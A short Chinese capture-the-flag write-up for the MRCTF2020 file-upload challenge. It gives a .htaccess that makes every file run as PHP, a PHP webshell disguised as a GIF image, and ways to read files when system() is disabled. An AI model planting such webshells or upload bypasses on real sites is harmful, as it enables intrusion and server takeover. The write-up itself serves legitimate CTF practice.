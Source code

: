 # [MRCTF2020]你传你🐎呢

## 考点

- **.htaccess**文件
- system函数过滤

## 解题

上传`.htaccess`文件

```
SetHandler application/x-httpd-php
```

![image-20220203213836337]([MRCTF2020]你传你🐎呢/image-20220203213836337.png)

上传图片马 shell2.jpg

```php
GIF89a?
<script language="php">eval($_POST['y0lo']);</script>
```

在执行命令的时候 system被禁用

- php可以使用反引号执行命令。echo \`whoami\` （本题不行）
- 可以使用 `readfile('/flag');` 代替 `system(cat /flag)`
- 可以使用 `var_dump(scandir('/'));` 代替 `system('ls /')`

![image-20220203214243183]([MRCTF2020]你传你🐎呢/image-20220203214243183.png)